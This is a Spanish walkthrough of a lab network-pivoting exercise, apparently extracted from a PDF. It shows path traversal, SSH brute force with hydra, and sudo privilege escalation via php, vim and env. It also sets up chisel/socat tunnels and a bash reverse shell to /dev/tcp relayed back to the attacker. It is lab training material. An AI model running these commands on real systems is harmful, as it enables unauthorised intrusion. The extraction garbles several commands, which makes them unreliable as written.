


# PDF Content

### En este escenario tenemos distintas máquinas conectadas entre

### ellas en un escenario de pivoting en red:

## sudo

### 

## bash

### auto_deploy.sh inclusion.tar trust.tar upload.tar

### walkingcms.tar whereismywebshell.tar

### Comenzamos enumerando puertos abiertos de la primera de ellas:

### Esto corre por el puerto 80:

### Haciendo fuzzing web nos encontramos con el directorio /shop:

### Nos encontramos con una web que nos chiva el parámetro del

### index.php que podemos utilizar para explotar alguna

### vulnerabilidad:

### Probamos el siguiente payload:

### Y leemos archivos internos de la máquina:

### http: 10.10.10.2/shop/index.php?archivo

### =

### / / / / / /etc/passwd

### Vemos dos usuarios, donde probamos primero con el usuario manchi

### por fuerza bruta contra el protocolo SSH:

### Accedemos por SSH:

### En este punto, vemos otro usuario llamado seller, que tras

### enumerar por distintas vías, no conseguimos pivotar a él, por lo

### que probamos en hacerle un ataque de fuerza bruta a su contraseña

### utilizando algún script para hacer esto mismo:

### hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh: 10.10.10.2

### https: github.com/Maalfer/Sudo_BruteForce

### Lo pasamos todo a la máquina víctima, el script junto con el

### rockyou:

### Y nos encuentra su contraseña:

### Nos encontramos con el binario de /usr/bin/php:

### Escalamos privilegios de la siguiente forma:

## bash

### Linux-Su-Force.sh seller rockyou.txt

### CMD

### =

### &#34;/bin/sh&#34;

## sudo

### /usr/bin/php -r

### &#34;system('

### $CMD

### ');&#34;

### Vemos una segunda interfaz para pivotar hacia la siguiente

### máquina:

### Nos creamos nuevas conexiones en esta máquina:

### En este punto, nos enviamos chisel:

### Ahora desde la máquina atacante nos ponemos en la escucha con

### chisel:

### chisel server reverse -p

### 1234

### Y nos conectamos desde la máquina víctima para poder ver desde

### nuestro Kali a la IP 20.20.20.2:

### Para hacer un escaneo de puertos a la siguiente máquina, debemos

### de utilizar los siguientes comandos de nmap:

### ./chisel client

### 192.168

### .0.20 1234 R:socks

### proxychains nmap -sT -Pn -p- -sV open -T5 -v -n

### 20.20

### .20.3

### 2

### 

### /dev/null

### Donde nos encuentra los puertos 22 y 80 abiertos:

### En el puerto 80 corre una plantilla de apache por defecto:

### Y esto corre en el /secret.php:

### Nos proporcionan un usuario donde podemos hacer fuerza bruta con

### hydra:

### Tenemos el acceso:

### Entramos pasando por el tunel:

### proxychains hydra -l mario -P /usr/share/wordlists/rockyou.txt

### ssh: 20.20.20.3 -I

### mario:chocolate

### Y vemos que podemos ejecutar vim como root:

### Y ya somos root:

### Comprobamos las interfaces de red:

### Y obtenemos varias sesiones para tener persistencia:

### proxychains

## ssh

### mario@20.20.20.3

## sudo

### /usr/bin/vim -c

### ':!/bin/bash'

### Ahora desde la máquina inicial nos compartimos el chisel a esta

### siguiente máquina mediante un servidor HTTP con python:

### Ahora desde la primera máquina vamos a necesitar socat para ir

### pasando la conexión de chisel:

### Lo obtenemos en la primera máquina:

### Y decimos que todo lo que nos llegue a la IP 10.10.10.0/24 que lo

### mande a la máquina atacante por el puerto 1234, que es donde

### tenemos chisel escuchando:

### Por tanto ahora que ya tenemos socat escuchando, vamos a usar

### chisel para enviar a la segunda interfaz de la primera máquina el

### nuevo tunel, que va a funcionar por el puerto 8888 por ejemplo:

### De tal forma que recibimos la conexión:

### https: github.com/andrew-d/static-

### binaries/blob/master/binaries/linux/x86_64/socat

### ./socat tcp-l:1111,fork,reuseaddr tcp:192.168.0.20 1234

### ./chisel client

### 20.20

### .20.2 1111 R 8888:socks

### Ahora tenemos que editar el archivo proxychains.conf y vamos a

### editar el archivo de proxychains y descomentamos la línea donde

### dice scrict_chain:

### Y comentamos esta línea:

### Además de añadir este nuevo túnel en la parte de abajo:

### Y ahora preparamos también el navegador para pasar por este otro

### nuevo túnel:

### Hacemos un escaneo de puertos con nmap a esta nueva dirección IP:

### Vemos que tenemos visibilidad con el puerto 80 de la 30.30.30.3:

### proxychains nmap -sT -Pn -p- -sV open -T5 -v -n

### 30.30

### .30.3

### 2

### 

### /dev/null

### Podemos hacer fuzzing web con gobuster pasando por el túnel de la

### siguiente forma:

### Vemos el directorio uploads:

### gobuster

## dir

### -u http: 30.30.30.3 -w

### /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -

### -proxy socks5: 127.0.0.1 8888

### Preparamos la reverse shell:

### Ahora tenemos que preparar socat para que la reverse shell vaya

### desde esta IP 30.30.30.3 hasta nuestro Kali, por lo que enviaremos

### socat a la máquina anterior, desde la 10.10.10.0/24 a la

### 20.20.20.0/24:

### Ahora con socat digo que todo lo que reciba por el puerto 2222

### quiero que lo envíe a la máquina 20.20.20.2 a su puerto 2222, y a

### su vez que la 20.20.20.2 envíe la reverse shell a la máquina Kali

### por el puerto 443:

### Y desde esta última máquina la reverse shell que vamos a generar

### será la siguiente:

### ./socat tcp-l:2222,fork,reuseaddr tcp:20.20.20.2 2222

### ./socat tcp-l:2222,fork,reuseaddr tcp:192.168.0.20 443

## bash

### -c

### &#34;bash -i /dev/tcp/30.30.30.2/2222 0 1&#34;

### Y con netcat habremos recibido la conexión:

### Y ahora repetimos la misma conexión para poder tener varias

### sesiones, todas ellas recibiéndolas por el puerto 443:

### Ejecutando el comando sudo -l vemos que como root podemos ejecutar

### el binario de env, por lo que ejecutamos el siguiente comando y

### escalamos a root:

## sudo

### /usr/bin/env /bin/sh

### Y ahora ya tenemos varias sesiones en esta máquina:

### Ahora vamos a hacer que todo lo que reciba la máquina 1 por el

### puerto 3333 que lo mande a chisel para poder llegar a esta última

### máquina:

### Y a su vez que la máquina siguiente todo lo que reciba por el

### puerto 333 lo envía a la 20.20.20.2:

### Y ahora ya desde la última máquina lanzamos la conexión de chisel

### pasando por socat entre todos los túneles hasta nuestra máquina

### atacante:

### ./socat tcp-l:333,fork,reuseaddr tcp:192.168.0.20 1234

### ./socat tcp-l:333,fork,reuseaddr tcp:20.20.20.2

### ./chisel client

### 30.30

### .30.2 333 R 9999:socks

